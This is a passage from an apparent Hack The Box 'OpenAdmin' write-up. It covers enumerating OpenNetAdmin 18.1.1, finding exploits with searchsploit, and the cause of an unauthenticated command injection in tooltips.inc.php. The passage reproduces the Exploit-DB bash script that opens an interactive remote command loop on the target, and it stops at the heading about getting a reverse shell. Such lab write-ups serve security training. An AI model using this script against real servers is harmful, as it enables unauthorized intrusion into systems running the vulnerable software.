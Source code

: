 ![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-musicsite.png" | relative_url }})

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors. We have version 18.1.1 of the software.

Reference - OpenNetAdmin Software : <https://opennetadmin.com/>

![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-opennetadmin.png" | relative_url }})

We have finish our first level of enumeration to find our target. Now we need to find any vulnerabilities to exploit it and gain a foothold.

### Vulnerabilities
***

Here our target is OpenNetAdmin software. We check all vulnerabilities with searchsploit and we find 2 vulnerabilities presents in our version 18.1.1.

```terminal
$ searchsploit opennetadmin
```

![Desktop View]({{ "/assets/img/openadmin/HTB-Images-Openadmin-searchsploit.png" | relative_url }})

We use `Remote Code Execution` to gain our first level access on the target.

### Reviewing Code
Reference - exploit RCE : <https://www.exploit-db.com/exploits/47691>

AJAX arguments allow exploits a command injection in OpenNetAdmin.
The vulnerability exists on the `tooltips.inc.php` component, due to the `insecure usage` of the `shell_exec()` PHP function.

The execution of the RCE dont need to be authenticated or have an authenticated user.

```
#!/bin/bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### Obtaining Reverse Shell from RCE Execution
***
Be careful, sometime script retrieve from searchsploit database dont work correctly. To remediate this, copy all code in new file.
